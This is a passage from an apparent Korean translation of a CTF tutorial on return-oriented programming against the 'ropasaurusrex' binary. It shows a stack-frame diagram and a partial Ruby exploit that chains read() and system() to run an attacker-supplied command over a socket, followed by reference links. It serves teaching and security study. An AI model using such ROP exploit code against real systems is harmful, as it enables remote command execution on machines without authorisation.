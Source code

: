 ``` plain
+----------------------+
|         ...          |
+----------------------+

+----------------------+ <-- system()의 프레임 시작
|      void *arg       | - 0x08049530 (buf)
+----------------------+
|   [return address]   | - 0x44444444
+----------------------+

+----------------------+
| [address of system]  | - 0xb7ec2450
+----------------------+

+----------------------+ <-- read()의 프레임 시작
|     size_t count     | - strlen(cmd)
+----------------------+
|      void *buf       | - 0x08049530 (buf)
+----------------------+
|        int fd        | - 0 (stdin)
+----------------------+
| [address of "pppr"]  | - 0x080484b6
+----------------------+

+----------------------+
|         ...          |
+----------------------+
```

원격 서버에서 보내는 걸 받기 위해 `s.read()`를 익스플로잇 마지막에 추가하자. 현재 익스플로잇은 다음과 같다:

``` ruby
require 'socket'

s = TCPSocket.new("localhost", 4444)

# The command we'll run
cmd = ARGV[0] + "\0"

# From objdump -x
buf = 0x08049530

# From objdump -D ./ropasaurusrex | grep read
read_addr = 0x0804832C
# From objdump -D ./ropasaurusrex | grep write
write_addr = 0x0804830C
# From gdb, "x/x system"
system_addr = 0xb7ec2450
# From objdump, "pop/pop/pop/ret"
pppr_addr = 0x080484b6

# Generate the payload
payload = "A"*140 +
  [
    # system()'s stack frame
    buf,         # writable memory (cmd buf)
    0x44444444,  # system()'s return address

    # pop/pop/pop/ret's stack frame
    system_addr, # pop/pop/pop/ret's return address

    # read()'s stack frame
    cmd.length,  # number of bytes
    buf,         # writable memory (cmd buf)
```

[SkullSecurity]: https://blog.skullsecurity.org
[Ron Bowes]: https://blog.skullsecurity.org/author/ron
[external-url]: https://blog.skullsecurity.org/2013/ropasaurusrex-a-primer-on-return-oriented-programming
[hindsight]: http://knowyourmeme.com/memes/captain-hindsight
[cnot]: https://blog.skullsecurity.org/blog/2013/epic-cnot-writeup-plaidctf
[ASLR]: https://en.wikipedia.org/wiki/Address_space_layout_randomization
[ROP]: https://en.wikipedia.org/wiki/Return-oriented_programming
[my writeup of cnot]: https://blog.skullsecurity.org/blog/2013/epic-cnot-writeup-plaidctf
[return into libc]: https://en.wikipedia.org/wiki/Return-to-libc_attack
[DEP]: https://en.wikipedia.org/wiki/Data_Execution_Prevention
[return]: https://en.wikipedia.org/wiki/Return_statement
[stack]: https://en.wikipedia.org/wiki/Call_stack
[my assembly tutorial]: https://blog.skullsecurity.org/wiki/index.php/The_Stack
[^1]: 링크가 [바뀌었다](https://wiki.skullsecurity.org/Assembly).
[Stack overflows]: https://en.wikipedia.org/wiki/Stack_overflow
[removed by the calling function]: https://en.wikipedia.org/wiki/X86_calling_conventions#cdecl
[except when they're not]: https://en.wikipedia.org/wiki/X86_calling_conventions#stdcall
[Book of Intel]: http://www.intel.com/content/www/us/en/processors/architectures-software-developer-manuals.html
[little endian]: https://en.wikipedia.org/wiki/Endianness
[0]: https://en.wikipedia.org/wiki/Zero_page
[pattern_create.rb]: https://github.com/rapid7/metasploit-framework/blob/master/tools/pattern_create.rb
[pattern_offset.rb]: https://github.com/rapid7/metasploit-framework/blob/master/tools/pattern_offset.rb
[xinetd]: https://en.wikipedia.org/wiki/Xinetd
[netcat]: https://en.wikipedia.org/wiki/Netcat
[libc]: https://en.wikipedia.org/wiki/C_standard_library
[stdin and stdout]: https://en.wikipedia.org/wiki/Standard_streams
[socket]: https://en.wikipedia.org/wiki/Network_socket
[.data]: https://en.wikipedia.org/wiki/Data_segment
[core dump]: https://en.wikipedia.org/wiki/Core_dump